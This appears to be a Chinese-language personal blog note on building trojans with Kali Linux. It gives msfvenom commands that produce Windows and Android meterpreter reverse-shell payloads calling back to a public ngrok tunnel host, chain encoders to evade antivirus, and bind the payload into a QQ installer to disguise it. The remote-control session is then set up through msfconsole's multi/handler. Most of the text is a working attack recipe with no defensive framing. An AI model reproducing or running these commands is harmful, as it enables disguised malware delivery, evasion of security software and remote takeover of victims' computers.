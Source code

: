 ```yaml
---
title: 木马病毒制作的笔记
tags: [kali, 木马病毒]
categories: 信息安全
date: 2023-11-07 21:59:00
---
```


# 木马病毒制作的笔记

## 工具准备

#### 内网 穿透工具

[花生壳](https://hsk.oray.com/)

[ngork](https://www.ngrok.cc/user.html)

#### 加壳工具



#### 系统环境

kali（发动控制的主机）

windows（目标主机）

#### 病毒制作工具



## 内网穿透

我是采用`ngork`进行

隧道id：`174035416011`

隧道端口:`10230`

服务器地址:	`free.idcfengye.com`

```
./sunny clientid 隧道ID
```



## 木马病毒的制作

### windows病毒

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=服务器地址 LPORT=隧道端口 -f exe > /root/muma.exe
```

#### 多次编码并捆绑qq安装包的可执行程序

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=free.idcfengye.com LPORT=10230 -f raw | msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 10 -x QQ9.7.18.29256.exe -k -f exe > csdn2.exe
```



### 安卓病毒

```

```

## 病毒免杀

### windows

```
msfvenom -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.255.130 lport=4444 -e x86/shikata_ga_nai -x QQ9.7.18.29256.exe -i 12 -f exe -o /kali/Desktop/csdn.exe
```



### 安卓病毒

```shell
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=服务器地址（域名） LPORT=隧道端口 -e x86/shikata_ga_nai R > black_1.apk
```



## 远程控制

```
msfconsole
```



```
use exploit/multi/handler
```

```
set payload windows/meterpreter/reverse_tcp
```

```
show options
```

```
set lhost 本地IP
```

```
set lport 本地端口
```

```
run
```

## 远程控制操作

[meterpreter命令总结](https://uuzdaisuki.com/2020/08/04/meterpreter%E5%91%BD%E4%BB%A4%E6%80%BB%E7%BB%93/)

https://www.cnblogs.com/yokan/p/12635066.html

https://spwpun.github.io/2019/12/29/meterpreter%E5%B8%B8%E7%94%A8%E5%91%BD%E4%BB%A4/

## 相关链接

[1]: https://blog.csdn.net/NuclearDalance/article/details/116450238	"使用Kali Linux系统生成木马病毒并实现远程控制计算机"
[2]: https://xz.aliyun.com/t/12893	"Android免杀小结"
[3]: https://cloud.tencent.com/developer/article/2245833	"使用Kali生成木马入侵安卓手机"

[4]: https://bbs.kanxue.com/thread-254995.htm	"[分享]免杀之安卓渗透"
[5]: https://blog.csdn.net/m0_46250064/article/details/105193234	"让你自己制作的木马和病毒用360安全卫士杀不出。加壳，免杀，加花，捆绑，压缩。"

